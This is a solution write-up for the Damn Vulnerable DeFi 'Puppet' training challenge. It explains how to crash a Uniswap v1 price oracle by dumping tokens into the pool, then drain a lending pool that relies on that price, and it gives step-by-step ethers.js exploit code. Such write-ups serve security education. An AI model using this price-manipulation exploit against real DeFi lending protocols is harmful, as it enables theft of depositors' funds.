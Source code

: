 ### [Contracts](https://github.com/tinchoabbate/damn-vulnerable-defi/tree/v3.0.0/contracts/puppet)

### Task

>There’s a lending pool where users can borrow Damn Valuable Tokens (DVTs). To do so, they first need to deposit twice the borrow amount in ETH as collateral. The pool currently has 100000 DVTs in liquidity.

>There’s a DVT market opened in an old [Uniswap v1 exchange](https://docs.uniswap.org/contracts/v1/overview), currently with 10 ETH and 10 DVT in liquidity.

>Pass the challenge by taking all tokens from the lending pool. You start with 25 ETH and 1000 DVTs in balance.

### Observations
- This pool calculates the price of DVT from one price oracle Uniswap pool.
- `calculateDepositRequired()` will tell us how much DVT we can borrow with out 25Eth budget.
- Uniswap has a 1-to-1 ratio DVT-to-Eth, and a `DEPOSIT_FACTOR` of 2. "Borrow 1 Deposit 2". 25 Eth gets 12.5 DVT.
- Required deposit is calculated based on the ratio of the Uniswap Market. I have enough Eth to manipulate the price.
- Make the price of DVT really low by depositing DVT to the pool and taking most of the Eth out... i.e. 1 eth to 
- Borrow all the tokens for much less Eth.

### Steps

- Set up for the Uniswap transaction:
```
//appove exchange to spend my tokens
await token.connect(player).approve(uniswapExchange.address, PLAYER_INITIAL_TOKEN_BALANCE);

// block.timestamp + 5 mins
const deadline = (await ethers.provider.getBlock("latest")).timestamp + 300;
console.log(deadline);
```

-  Swap all my DVT with Eth in the Uniswap Pool to devalue DVT.

```
//Swap all DVT for Eth in pool, devaluing DVT. 
await uniswapExchange.connect(player).tokenToEthSwapInput(PLAYER_INITIAL_TOKEN_BALANCE - 1n, 1, deadline);
```

- Get manipulated required deposit value.
```
//get new manipulated eth depositRequired from pool
const depositRequired = await lendingPool.connect(player).calculateDepositRequired(POOL_INITIAL_TOKEN_BALANCE);
```

- borrow all DVT from lending pool for a small amount of eth (≈ 19.67 Eth).

```
 //borrow all DVT from lending pool.
await lendingPool.connect(player).borrow(POOL_INITIAL_TOKEN_BALANCE, player.address, { value: depositRequired });
```

- This can all be done in one transaction from a smart contract, and is advised, incase this process is frontrun.